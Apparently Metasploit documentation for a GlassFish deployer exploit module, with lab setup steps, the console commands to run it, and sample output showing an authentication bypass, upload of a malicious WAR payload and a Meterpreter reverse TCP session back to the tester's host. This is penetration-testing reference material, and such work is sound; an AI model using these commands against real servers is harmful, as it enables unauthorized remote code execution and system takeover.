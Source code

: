 ## Description

This module logs in to a GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

## GlassFish

GlassFish is a open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

## Installation

For testing purposes, the following explains how you can install a vulnerable version of GlassFish on Ubuntu Linux:

1. Make sure you have a clean Ubuntu box
2. Open a terminal on the Ubuntu box, and do: ```sudo apt-get install default-jdk```. We assume this gives you JDK 8.
3. Download [GlassFish 4.0](http://download.java.net/glassfish/4.0/release/glassfish-4.0.zip)
4. Unzip GlassFish-4.0, navigate to the bin directory, and then start ```asadmin```
5. In the asadmin console, do ```start-domain domain1```. This will start GlassFish.
6. On the Ubuntu box, go to http://localhost:4848 with a browser
7. On the left menu, click on ```Domain```
8. On the right, click on ```Administrator Password```
9. Set a new password for admin
10. On the left menu, click on ```server (Admin server)```
11. On the right, click on ```Secure Administrator```
12. Click on ```Enable Secure Admin```
13. You will need to wait for up to a minute to make sure GlassFish is up and running again on port 4848.

If you are on a different platform (such as Windows), the installation should be quite similar.

## Verification Steps

1. Do: ```use exploit/multi/http/glassfish_deployer```
2. Do: ```set RHOST [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

```
